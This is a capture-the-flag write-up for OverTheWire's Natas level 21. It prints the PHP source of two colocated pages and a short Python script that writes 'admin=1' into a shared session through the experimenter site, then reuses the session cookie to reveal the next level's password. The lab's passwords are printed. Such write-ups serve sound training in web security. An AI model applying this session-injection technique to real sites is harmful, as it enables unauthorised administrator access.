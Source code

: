 # Over The Wire -- Natas 21

## Server URL
```
http://natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ@natas21.natas.labs.overthewire.org
```

## Solution
We get a page with this message
```
Note: this website is colocated with http://natas21-experimenter.natas.labs.overthewire.org
You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.
```

The php source code is 
```php
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas21", "pass": "<censored>" };</script></head>
<body>
<h1>natas21</h1>
<div id="content">
<p>
<b>Note: this website is colocated with <a href="http://natas21-experimenter.natas.labs.overthewire.org">http://natas21-experimenter.natas.labs.overthewire.org</a></b>
</p>

<?

function print_credentials() { /* {{{ */
    if($_SESSION and array_key_exists("admin", $_SESSION) and $_SESSION["admin"] == 1) {
    print "You are an admin. The credentials for the next level are:<br>";
    print "<pre>Username: natas22\n";
    print "Password: <censored></pre>";
    } else {
    print "You are logged in as a regular user. Login as an admin to retrieve credentials for natas22.";
    }
}
/* }}} */

session_start();
print_credentials();

?>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

The cookies are shared with the `-experimenter` website.
We can access it at
```
http://natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ@natas21-experimenter.natas.labs.overthewire.org
```

On this page we get a css style editor.
The php source code for this page is :
```php
<html>
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head>
<body>
<h1>natas21 - CSS style experimenter</h1>
<div id="content">
<p>
<b>Note: this website is colocated with <a href="http://natas21.natas.labs.overthewire.org">http://natas21.natas.labs.overthewire.org</a></b>
</p>
<?  

session_start();

// if update was submitted, store it
if(array_key_exists("submit", $_REQUEST)) {
    foreach($_REQUEST as $key => $val) {
    $_SESSION[$key] = $val;
    }
}

if(array_key_exists("debug", $_GET)) {
    print "[DEBUG] Session contents:<br>";
    print_r($_SESSION);
}

// only allow these keys
$validkeys = array("align" => "center", "fontsize" => "100%", "bgcolor" => "yellow");
$form = "";

$form .= '<form action="index.php" method="POST">';
foreach($validkeys as $key => $defval) {
    $val = $defval;
    if(array_key_exists($key, $_SESSION)) {
    $val = $_SESSION[$key];
    } else {
    $_SESSION[$key] = $val;
    }
    $form .= "$key: <input name='$key' value='$val' /><br>";
}
$form .= '<input type="submit" name="submit" value="Update" />';
$form .= '</form>';

$style = "background-color: ".$_SESSION["bgcolor"]."; text-align: ".$_SESSION["align"]."; font-size: ".$_SESSION["fontsize"].";";
$example = "<div style='$style'>Hello world!</div>";

?>

<p>Example:</p>
<?=$example?>

<p>Change example values here:</p>
<?=$form?>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

We can use the `?debug` query parameter to dump the content of the session

This was was pretty simple, we can submit anything to write in the session via the `-experimenter` website.

We can easily write `admin 1` in the session

We can then reuse the same session id to get the password from the original site.

Here is our python script to solve this :
```py
import requests

url = "http://natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ@natas21.natas.labs.overthewire.org"
alternate_url = "http://natas21:IFekPyrQXftziDEsUr3x21sYuahypdgJ@natas21-experimenter.natas.labs.overthewire.org?debug"
    
s = requests.Session()
r = s.post(alternate_url, data={"admin": "1", "submit":"1"})
admin_session_id = list(r.cookies.get_dict().values())[0]
r = s.get(url, cookies = {"PHPSESSID":admin_session_id})
password = r.text.split('Password: ')[1].split("</pre>")[0]

print(f"Natas22 password : {password}")
```

Natas22 password is :
```
chG9fbe1Tq2eWVMgjYYD1MsfIvN461kJ
```